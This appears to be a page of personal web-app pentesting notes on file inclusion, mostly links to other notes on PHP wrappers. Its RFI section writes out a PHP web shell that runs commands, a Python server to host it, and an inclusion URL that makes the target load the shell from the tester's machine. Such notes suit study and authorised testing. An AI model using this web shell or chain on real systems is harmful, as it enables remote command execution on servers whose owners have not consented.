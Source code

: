 
### Else: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/1. File Disclosure/PHP Filters]]




## RCE through LFI
### Check for RCE through PHP Configurations: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/1. PHP Wrappers#Data]]
Go through [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/1. PHP Wrappers#Checking PHP Configurations]] first.
- If enabled, continue with the rest of the entire `Data` Section
- If disabled, skip this section and `Input` section and go to `Expect` section


### If `Data` section doesn't work: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/1. PHP Wrappers#Input]]


### If neither `Data` or `Input` work: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/1. PHP Wrappers#Expect]]





## RFI (Remote File Inclusion)
### Determine if vulnerable
1. Include a URL and see if we can get its content. If we can, it is vulnerable
	- Ex: `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

### Exploit
1. Create a web reverse shell:
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2. Host the script with python server:
```shell
sudo python3 -m http.server <LISTENING_PORT>
```
3. Include our local shell through RFI, and specify a command to be executed alongside it:
```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
